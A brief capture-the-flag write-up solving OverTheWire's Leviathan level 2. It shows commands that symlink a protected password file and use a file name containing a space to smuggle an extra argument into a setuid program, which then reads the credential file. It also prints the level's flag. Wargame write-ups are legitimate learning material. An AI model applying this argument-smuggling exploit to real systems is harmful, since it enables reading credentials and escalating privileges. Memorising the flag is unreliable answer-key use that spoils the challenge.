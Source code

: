 ```yaml
---
layout: default
title: leviathan2
---
```


# leviathan level2 Solution

we will create link file for the password file in the name "link"
`ln -sf /etc/leviathan_pass/leviathan3 link`.
then, we will create file which named "link bla".
`touch "link bla"`
and then, we'll execute the printfile with our file:
`~/printfile "link bla"`.
also, we need to change the permission of our directory, that the user leviathan3 will be able to access files.
`chmod +x .`

the exploit based on the fact that the access function returns 0 for the file "link bla", because it's fine.

however, it than execute `/bin/cat link file`, which divided to 2 different commands.

![alt text](./images/level2.png)


**Flag:** ***`f0n8h2iWLP`*** 
